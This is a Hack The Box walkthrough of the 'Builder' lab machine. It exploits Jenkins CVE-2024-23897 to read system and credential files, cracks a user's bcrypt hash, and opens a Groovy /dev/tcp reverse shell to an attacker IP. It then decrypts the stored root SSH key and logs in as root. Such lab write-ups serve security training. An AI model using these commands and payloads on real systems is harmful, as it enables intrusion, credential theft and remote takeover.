# HTB - Builder

#### Ip: 10.129.230.220
#### Name: Builder
#### Rating: Medium

----------------------------------------------------------------------



### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

Nmap:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 10.129.230.220 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-05 07:24 CDT
Nmap scan report for 10.129.230.220
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-server-header: Jetty(10.0.18)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.39 seconds
```

Looking at the Jetty site on port 8080 we find a Jenkins 2.441 instance running:



Navigating to http://10.129.230.220:8080/asynchPeople/ we also find user Jennifer (as well as our anonymous session):



Clicking into the Credentials tab we see that user root may have SSH enabled:



Looking for Jenkins exploits I find `CVE-2024-23897(Arbitrary File Read Vulnerability) Jenkins 2.441 and earlier`

Reading up on how to exploit this first we'll need to grab the jenkins-cli.jar file:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ wget http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar

--2024-08-05 07:37:36--  http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.129.230.220:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar                 100%[====================================================>]   3.46M  4.30MB/s    in 0.8s    

2024-08-05 07:37:36 (4.30 MB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

We can then execute:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/etc/passwd'
```

Which gives us the contents of `/etc/passwd`:



### Foothold

Lets find the Jenkins home path by viewing `/proc/self/environ`



We can now confirm that user jennifer exists by viewing `/var/jenkins_home/users/users.xml`

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/var/jenkins_home/users/users.xml'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>"
<SNIP>
```

Now that we have jennifer's username string `jennifer_12108429903186576833` We can query:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
```

Which gives us a bcyrpt hash:

```
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

Lets crack this in john:



We can now login as jennifer:



We can now navigate to the `/script` directory and issue a reverse shell using Groovy:

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.107/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```



We then catch a shell back as jenkins:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ nc -lnvp 443             
listening on [any] 443 ...
connect to [10.10.14.107] from (UNKNOWN) [10.129.230.220] 55854
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
hostname
0f52c222a4cc
python3 -c 'import pty;pty.spawn("/bin/bash")'

/bin/bash: line 1: python3: command not found
python -c 'import pty;pty.spawn("/bin/bash")'

/bin/bash: line 1: python: command not found
/usr/bin/script -qc /bin/bash /dev/null
jenkins@0f52c222a4cc:/$
```

Because the hostname is 0f52c222a4cc, we can likely assume we are inside of a docker container.

We can now grab the user.txt flag in `/var/jenkins_home`



### Privilege Escalation

Looking at `/var/jenkins_home/credentials.xml` we find an encrypted key:



And it appears to be the SSH key for root:

```
<scope>GLOBAL</scope>
<id>1</id>
<description></description>
<username>root</username>
<usernameSecret>false</usernameSecret>
```

We can decrypt this back in the Groovy Console with:

```
println(hudson.util.Secret.decrypt("{AQAAAB.....<SNIP>}"))
```



We can then use this key to SSH in as root:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ ssh -i id_rsa root@10.129.230.220   
The authenticity of host '10.129.230.220 (10.129.230.220)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:161: [hashed name]
    ~/.ssh/known_hosts:164: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.230.220' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

<SNIP>

Last login: Mon Feb 12 13:15:44 2024 from 10.10.14.40
root@builder:~# whoami
root
root@builder:~# hostname
builder
```

We can now grab the root.txt flag:



Thanks for following along!

-Ryan

---------------------------------------------
